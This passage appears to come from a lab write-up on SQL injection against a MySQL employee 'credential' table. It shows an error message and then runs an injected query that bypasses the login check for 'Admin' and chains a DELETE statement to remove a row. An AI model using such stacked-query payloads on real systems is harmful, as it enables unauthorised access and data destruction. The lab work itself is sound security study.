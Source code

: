 ![](images/4-3-4.png)

```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'DELETE FROM credential WHERE Name='Dummy'; #' and Password='40bd001563085fc35165' at line 3]\n
```

Observation: the delete statement is not executed; and the error message indicates that the SQL statement is not executed as a whole; rather, it is treated as two separate statements, with the first statement successful and the second one raising an error.

To verify the correctness of the SQL statement, execute the same SQL statement in the MySQL shell:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name= '' or Name='Admin'; DELETE FROM credential WHERE Name='Dummy'; #' and Password='40bd001563085fc35165';
```

![](images/4-3-5.png)
